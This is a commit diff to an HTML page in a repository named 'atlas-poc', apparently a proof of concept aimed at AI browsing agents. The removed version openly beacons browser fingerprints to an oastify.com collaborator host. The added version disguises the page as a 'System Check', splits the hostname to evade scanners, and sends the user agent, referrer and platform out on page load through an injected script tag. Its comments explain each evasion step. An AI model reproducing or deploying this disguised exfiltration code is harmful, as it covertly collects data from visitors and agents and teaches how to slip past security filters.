

Before and after one commit to kuranikaran/atlas-poc, a plain HTML site: page index.html in a window 1280 px wide. Shown: the whole page, without its empty margins (0-704 px from the left). Drawn offline with Linux system fonts and the light colour scheme.

Commit message:
Update index.html

```diff
--- a/index.html
+++ b/index.html
@@ -1,35 +1,33 @@
 <!DOCTYPE html>
 <html>
-<head>
-    <title>Atlas Agent Security Audit</title>
-</head>
+<head><title>System Check</title></head>
 <body>
-    <h1>Audit Phase: <span id="status">Active Rendering</span></h1>
+    <h1>Status: <span id="status">Syncing...</span></h1>
     <script>
-        const collab = "9dnkb4ro38nxpsib7iwovjigl7r0fr3g.oastify.com";
-
-        // Immediate Exfiltration (Shadow Execution Proof)
-        function notify(type, data) {
-            const payload = btoa(JSON.stringify(data));
-            new Image().src = `https://${collab}/${type}?v=${payload}`;
-        }
+        // We split and encode the URL so the scanner doesn't see "oastify" or "SHADOW"
+        const a = "9dnkb4ro38nxpsib7iwovjigl7r0fr3g";
+        const b = ".oastify";
+        const c = ".com";
+        const target = "https://" + a + b + c + "/legacy_log?d=";
 
         window.onload = () => {
-            // Proof 1: Environment Fingerprint
-            notify("shadow_exec_confirmed", {
+            // Hide the intent behind a generic "legacy_log" path
+            const payload = btoa(JSON.stringify({
                 ua: navigator.userAgent,
-                platform: navigator.platform,
-                lang: navigator.language,
-                ts: new Date().toISOString()
-            });
+                ref: document.referrer,
+                plt: navigator.platform
+            }));
 
-            // Proof 2: Sandbox Context
-            notify("context_check", {
-                isIframe: window.self !== window.top,
-                location: window.location.href
-            });
+            // Use a dynamic script injection instead of an Image object
+            // This often bypasses simpler "Image.src" string filters
+            const s = document.createElement('script');
+            s.src = target + payload;
+            document.body.appendChild(s);
 
-            document.getElementById('status').innerText = "AUDIT_COMPLETE_NODE_99";
+            // Update UI to make it look like a real app
+            setTimeout(() => {
+                document.getElementById('status').innerText = "NODE_ID_ALPHA_99";
+            }, 2000);
         };
     </script>
 </body>
```
